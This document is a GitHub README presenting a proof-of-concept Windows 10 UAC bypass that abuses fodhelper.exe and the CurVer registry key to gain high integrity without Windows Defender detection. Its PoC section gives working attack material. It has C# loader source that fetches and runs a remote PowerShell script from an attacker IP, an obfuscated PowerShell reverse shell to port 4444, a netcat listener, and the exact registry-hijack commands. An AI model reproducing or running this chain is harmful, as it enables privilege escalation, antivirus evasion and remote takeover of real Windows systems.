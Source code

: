 # UAC-Bypass-2023

## User Account Control Bypass without triggering Windows Defender
## Author: Ruggero Tafuro
## Date: 13-05-2023

## What is UAC?
UAC (User Account Control) is a security mechanism present in Windows operating systems that limits the
access of programs to user accounts with elevated privileges, such as administrators.
Its main strength is to protect the system from malware attacks, which try to exploit vulnerabilities to gain
administrator privileges and compromise the system.
UAC works by asking for explicit permission from the user whenever a program requests access to protected operating system resources, such as system folders, the system registry or security settings.
In this way, UAC prevents unauthorized or potentially harmful programs from modifying the system without the user’s consent.
Additionally, UAC can also help prevent user errors that could compromise system security. For example,
when a non-administrator user tries to perform an action that requires elevated privileges, UAC prompts
the user to provide administrator credentials to
grant permission.
In summary, the strength of UAC lies in its ability to limit the access of programs to administrator privileges and to request explicit user authorization whenever access to protected operating system resources is
requested.
This can help prevent malware attacks and user errors that could compromise system security.

## Fodhelper and the system registry:
Windows 10 environments allow users to manage language settings for a variety of Windows features
such as typing, text-to-speech etc.
When a user requests to open “Manage optional features” in Windows Settings to change the language, a
process under the name fodhelper.exe is created.
This process is running in high integrity because the binary file has the auto-elevation setting set to “true”.
“CurVer” is a Windows registry subkey that is used to specify the current version of a given object class or
registry path. This value is used to determine which version of an application or component the system
should load when prompted.
For example, when an application or component is installed on the system, it is usually recorded in the
system registry. The “CurVer” subfolder can be used to specify the current version of that application or
component, letting the system know which version to load when prompted.

## Bypass:
In Windows 10 an attacker in possession of a user with administrative privileges, but with a “medium”
level label, is allowed to generate a process with superior privileges (“high” level label).
This is possible thanks to the creation of keys within the system registry that manipulate the normal execution expected by fodhelper, so that it executes commands with elevated privileges bypassing the User
Account Contol (UAC) by executing .exe files.
Everything is reproducible without the Windows Defender detection.

## Severity:
The impact of the bypass that I personally evaluate is HIGH as it allows anyone authenticated with an administrative user with an RCE vulnerability to increase the integrity of their processes to “high”.
This exploit is currently exploitable within Windows 10 updated to the latest version.
In fact, in the following images you can see how the test system has been updated to the latest patch
available.

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c3136cd3-ae03-4a1f-9195-63facfc40269)

*1. List of Windows Update patches installed on the system*




![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c26f4a81-832a-4923-af3b-b87165e95371)

*2. Windows Update - update to the latest available version released*




Windows Defender is correctly active in all its features
![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1b235a9a-2110-490a-b14b-7dca5bc91487)

*3. Windows Defender features*



## PoC:
We can assume that an attacker is already inside the target machine with an administrative user (in this
case “rugge”) and has the possibility to execute commands (RCE) inside a powershell.
For convenience and clarity, the commands will be executed by the user “rugge” directly from the target
system, but everything can also be reproduced in a scenario in which the attacker executes the commands
remotely.
The target machine will have the IP as shown:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/23d2ac14-fcb2-4d43-b7f8-1116d9ea2a96)

*4. IP Windows (target)*

While the attacking machine running Ubuntu 22.04 will have ip:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/eea1efa5-73af-4041-8556-2f9f8cb25d1e)

*5. Ubuntu IP (attacker)*

The aim is to modify the fodhelper registers in particular HKCU:\Software\Classes\ms-settings\CurVer
pointing to a specially created one (HKCU\Software\Classes\.hack\Shell\Open\command) which will contain the executable (revs.exe) which will be run as soon as we call fodhelper.exe.

So let’s create an executable whose main purpose is to run a powershell.exe (copied from “C:\Windows\
System32\WindowsPowerShell\v1.0” and renamed to “ps.exe” inside a temporary folder “tempp ” so as
not to make Defender and/or a system user suspicious) with the sole command of executing in memory
the code contained in the file (script.ps1) that the target Windows will find at the address of the http
python simple-server that is hosted by the attacking machine (http://172.20.10.14:8000/script.ps1)
A possible source code example of the executable:

```
 using System;
 namespace PowerShellProject
 {
 class Program
 {
 static void Main(string[] args)
 {
 System.Diagnostics.Process.Start(@”C:\tempp\ps.exe”, “-c \”IEX([Net.Webclient]::new().DownloadString(‘http://172.20.10.14:8000/script.ps1’))\””);
 }
 }
 }
```

Once the code has been compiled and transferred to the target machine in the “tempp” temporary folder,
what we will have to do is to start the http python simple-server on the attacking machine with the same
listening port as the one in the “revs.exe”

```
 $ python3 -m http.server --bind 172.20.10.14 8000 
```
The script that will be requested by the target is nothing more than a simple obfuscated reverse shell to
not trigger Windows Defender:

example script.ps1 
``` 
$client = Ne’’w-Object System.Net.Sockets.TCPClient(‘172.20.10.14’,4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Finally, still on the attacking machine, in another bash shell window we will start a “listener” ready to capture the outgoing connection of the reverse shell performed within the target machine.

``` 
 $ nc -lvnp 4444
``` 
So let’s go back to the target system and start executing the commands within a powershell that will
change the system registers.
The first command will launch the cmd to add a custom file association for the “.hack” extension in the
Windows registry, which allows you to open the .hack files with the revs.exe application present in the “C:\tempp\revs\revs\bin\Debug\net6.0”.

``` 
cmd /c ‘call reg add “HKCU\Software\Classes\.hack\Shell\Open\command” /v “” /d “\”C:\tempp\revs\revs\bin\Debug\net6.0\revs.exe\”” /f’
``` 

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2e424062-0893-4ff0-8286-b29f3a69c557)

*6. Registry key associated to .hack with call to revs.exe*

The second command instead will launch cmd which sets the “.hack” extension as the default value for
displaying system settings in Windows

```
cmd /c ‘call reg add “HKCU\Software\Classes\ms-settings\CurVer” /d “.hack” /f’
```

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/3f2871ee-82e6-4137-a9d6-63debce635c1)

*7. CurVer registry key referenced to .hack registry key*

At this point everything is ready to call fodhelper and receive the connection from the target Windows on
the attacking machine

```
cmd /c ‘call fodhelper.exe’
```

With this call fodhelper will use the memory registers which will start the executable revs.exe which will
contact the python server offering the script.ps1 which, once executed, will establish a connection to the
attacking machine creating a reverse shell with integrity level “high ”

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1fc84235-1d46-4013-96ea-2d9332034613)

*8. Execute commands writing values to the system registry and calling revs.exe*




![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/63bb6a96-bc59-4c04-a8d6-fea8d550b07e)

*9.Target Windows GET request to the attacking server*




![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2b3bcfec-ab43-4a22-aeeb-81880beb86fb)

*10. Reverse shell integrity level obtained by the attacking machine*




We can also notify how Windows Defender did not get alarmed during operations and let us reach the goal
without its interference

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/b0d9c77d-32a8-4b17-9ff8-db21e1abdfc7)

*11. No threats detected by Windows Defender*



In this last image demonstrating the elevation of privileges, the integrity level (medium) of the powershell
on which we executed the commands is shown

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/e9f28102-c7d4-4400-834f-42d7a0a3035b)

*12. Original powershell integrity level*


